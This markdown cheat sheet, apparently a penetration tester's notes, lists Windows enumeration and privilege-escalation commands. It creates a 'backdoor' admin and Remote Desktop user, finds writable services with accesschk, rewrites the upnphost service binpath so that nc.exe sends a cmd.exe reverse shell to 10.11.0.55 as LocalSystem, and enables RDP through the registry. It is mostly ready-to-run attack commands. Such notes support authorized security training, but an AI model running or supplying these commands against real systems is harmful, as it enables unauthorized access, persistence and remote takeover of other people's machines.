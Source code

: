 
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net use`

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Check Administrators
`net localgroup Administrators`

### Get directory permission

`cacls Music`

or

`icacls Music`

`accesschk.exe -uwcqv "Authenticated Users" *`

`accesschk.exe /accepteula -uwdqs "Users" c:\`

` accesschk.exe -ucqv SSDPSRV`

This command shows which Windows services members of the Users group have write access to:

`accesschk users -cw \*`

`sc qc upnphost`

`sc config upnphost binpath= "C:\Inetpub\scripts\nc.exe 10.11.0.55 1234 -e C:\WINDOWS\System32\cmd.exe"`

`sc config upnphost obj= ".\LocalSystem" password= ""`

`sc qc upnphost`

### remove the dependency:

`$ sc config upnphost depend= ""`



windows service requires the executable to send back some feedback call within 30 seconds after a service had started. Or else, it will considered it as failed start attempt and terminate the service.

there are few workarounds on this, the easiest way is simply wrap your command in cmd.exe. i.e, cmd.exe /k <ur command>.


We can enable remote desktop from windows command line by running the following command:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f





